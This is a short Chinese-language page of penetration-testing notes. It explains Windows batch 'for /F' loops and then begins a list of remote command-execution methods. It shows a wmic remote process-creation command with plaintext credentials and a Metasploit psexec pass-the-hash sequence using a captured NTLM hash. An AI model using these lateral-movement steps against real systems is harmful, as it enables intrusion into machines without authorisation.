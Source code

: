 --

假如文件aa.txt中有如下内容：  
第1行第1列 第1行第2列  
第2行第1列 第2行第2列  
 
```bash
#只会输出aa.txt，并不会读取其中的内容
for %i in (aa.txt) do echo %i

#读出aa.txt里面的所有内容，把它作为一个集合，并且以每一行作为一个元素，默认以空格键或Tab键作为分隔符
for /F "delims= " %i in (aa.txt) do echo %i 

#将delims设置为空格，是将每个元素以空格分割，默认只取分割之后的第一个元素。如果我们想得到第二列数据，就要用到tokens=2
for /F "tokens=2 delims= " %i in (aa.txt) do echo %i 
```

---

## Windows远程执行cmd命令的9种方法
远程执行命令方式及对应端口:  

```
IPC$+AT 445
PSEXEC 445
WMI 135
Winrm 5985(HTTP)&5986(HTTPS)
```

--

### 1.WMI执行命令方式,无回显:
```bash
wmic /node:192.168.1.158 /user:pt007 /password:admin123  process call create "cmd.exe /c ipconfig>d:\result.txt"
```

--

### 2.使用Hash直接登录Windows（HASH传递）:
抓取windows hash值,得到administrator的hash:
```
598DDCE2660D3193AAD3B435B51404EE:2D20D252A479F485CDF5E171D93985BF
```  
```bash
msf调用payload：
use exploit/windows/smb/psexec
show options
set RHOST 192.168.81.129
set SMBPass 598DDCE2660D3193AAD3B435B51404EE:2D20D252A479F485CDF5E171D93985BF
set SMBUser Administrator
show options
run
```

